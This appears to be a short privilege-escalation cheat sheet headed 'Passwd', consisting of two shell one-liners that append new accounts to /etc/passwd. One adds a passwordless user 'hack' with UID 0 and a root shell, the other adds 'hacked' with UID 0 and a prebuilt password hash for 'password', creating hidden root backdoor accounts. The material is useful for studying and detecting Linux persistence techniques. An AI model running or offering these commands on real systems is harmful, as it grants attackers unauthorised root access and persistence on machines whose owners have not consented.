 # Passwd

## /etc/passwd make a new user with no password

`echo 'hack::0:0:,,,:/root:/bin/sh' >> /etc/passwd`



Add a user with password as password

```
echo 'hacked:$1$oEEgii4t$lCiEbtmrRtb9RrwaeGwbu0:0:0:,,,:/root:/bin/sh' >> /etc/passwd
```
